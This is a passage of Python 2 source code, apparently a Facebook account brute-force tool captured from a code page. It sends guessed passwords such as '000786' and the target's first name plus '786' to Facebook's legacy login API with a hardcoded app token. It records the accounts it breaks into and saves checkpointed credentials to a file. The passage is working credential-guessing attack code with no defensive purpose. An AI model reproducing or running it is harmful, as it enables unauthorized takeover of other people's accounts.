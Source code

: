 				else:

					pass2 = '000786'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])

						z = json.loads(x.text)

						print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass2	

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass2	

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '786'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])

								z = json.loads(x.text)

								print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass3	

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass3	
